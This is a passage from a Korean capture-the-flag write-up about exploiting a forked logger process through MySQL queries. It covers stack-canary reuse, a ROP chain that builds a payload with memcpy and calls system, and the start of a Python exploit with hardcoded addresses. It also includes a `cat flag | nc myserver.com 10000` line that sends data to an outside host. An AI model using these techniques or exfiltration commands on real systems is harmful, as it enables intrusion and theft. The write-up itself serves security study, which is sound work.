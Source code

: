 이제 임의의 길이의 message가 포함된 query를 mmap으로 할당한 구역에 써 넣고 mysql_real_query를 호출하면 logger process로 payload를 보낼 수 있게 되었습니다. Buffer overflow를 trigger해 ROP를 하기 위해서는 stack guard를 우회해야 하며, 이를 위해 원래의 process에서 canary 값을 추출해 ROP payload에 집어넣어 stack guard가 발동되지 않도록 했습니다. 이는 stack canary가 모든 함수에서 동일하며, logger process 역시 fork로 실행되기 때문에 가능합니다. 이제 ROP는 가능하나 추가적인 payload를 집어넣을 수 없어 쉘을 띄울 수 없었으므로 memcpy 함수를 이용해 원하는 payload를 메모리에 생성하는 code를 ROP로 작성했고, 원하는 shell command를 system 함수로 실행할 수 있게 되었습니다.

정상적으로라면 `cat flag | nc myserver.com 10000` 와 같은 식으로 원하는 shell command를 실행하고 그 결과를 받아볼 수 있어야 하나 일정 길이 이상의 query문이 mysql_real_query 함수에서 실행되지 않는 문제가 있었습니다. 이를 디버그해서 해결하는 대신 anti_hexray, NTmaze 등 문제와 같은 서버를 사용한다는 점을 이용, `/tmp/t` 등에 다음과 같은 shell script를 작성하고 이를 executable에서 실행하게 함으로써 shell command의 결과를 확인했습니다.

```sh
#!/bin/sh
ls -al > /tmp/s
```

확인 결과 `flag`는 executable도 읽기 권한이 없었지만 `get_flag`에 setuid가 걸려 있어 `./get_flag flag`와 같이 읽을 수 있었습니다. 다음은 exploit code입니다.

```python
import pwnbox
from pwnbox.utils import qtol, ltoi

todo = 'BBBB'

base = 0x7effff969000
libc_base = 0x7efffea12000
head = base + 0x2062f8
addrsp = base + 0x1d5f
ret = base + 0x3154
bss = base + 0x2062fc
canary = 0x53c6318b9862c200

bss &= 0xfffffffff000

def regs(rdi, rsi, rdx):
    pay = ''
    pay += qtol(libc_base + 0x108169)
    pay += qtol(rdx)
    pay += qtol(rsi)
    pay += qtol(base + 0x3153)
    pay += qtol(rdi)
    return pay

def regs2(rdi, rsi, rdx, rcx, r8, r9):
    pay = ''
    pay += qtol(bss)
    pay += qtol(rdi)
    pay += qtol(rsi)
    pay += qtol(rdx)
    pay += qtol(rcx)
    pay += qtol(r8)
    pay += qtol(r9)
    return pay

buf = 0x7effffc97360

def call(func, rdi, rsi, rdx):
    pay = ''
    pay += qtol(0x314a + base)
    pay += qtol(0)
    pay += qtol(1)
    pay += qtol(func + base)
    pay += qtol(rdx)
    pay += qtol(rsi)
    pay += qtol(rdi)
```